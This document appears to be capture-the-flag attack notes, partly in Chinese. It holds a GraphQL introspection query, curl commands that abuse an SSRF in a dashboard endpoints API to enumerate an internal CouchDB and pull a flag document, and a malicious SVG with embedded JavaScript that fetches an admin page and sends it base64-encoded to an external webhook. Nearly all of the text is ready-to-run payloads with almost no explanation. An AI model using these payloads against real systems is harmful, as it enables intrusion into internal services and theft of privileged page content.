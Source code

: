 GraphQL 查询所有字段

{
"query": "query IntrospectionQuery { __schema { types { name kind description fields { name description args { name description type { name kind ofType { name kind } } } type { name kind ofType { name kind } } } } } }"
}

SSRF利用

#目标端口扫描 couchdb
curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/#\\",\\"sector\\":\\"whale_get_4369\\"}"](http://127.0.0.1:5984/#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_4369%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale'

#couchdb路径 dbs

curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/_all_dbs#\\",\\"sector\\":\\"whale_get_5984_all_dbs\\"}"](http://127.0.0.1:5984/_all_dbs#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_5984_all_dbs%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale'

curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/citismart#\\",\\"sector\\":\\"whale_get_5984_citismart\\"}"](http://127.0.0.1:5984/citismart#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_5984_citismart%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale'
curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/citismart/_all_docs#\\",\\"sector\\":\\"whale_get_5984_citismart_all_docs\\"}"](http://127.0.0.1:5984/citismart/_all_docs#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_5984_citismart_all_docs%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale'
curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/citismart/FLAG#\\",\\"sector\\":\\"whale_get_5984_citismart_FLAG\\"}"](http://127.0.0.1:5984/citismart/FLAG#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_5984_citismart_FLAG%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale' | grep FLAG


上传svg 再构造query让管理员访问，将管理员页面内容反弹回webhook
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400">
  <script type="text/javascript">
    // Fetch the admin dashboard and exfiltrate via webhook
    fetch('/admin')
      .then(res => res.text())
      .then(html =>
        fetch('https://webhook.site/ac03410c-e005-4aa4-85c8-b0eeadab1367', {
          method: 'POST',
          body: btoa(html)
        })
      );
  </script>
</svg>
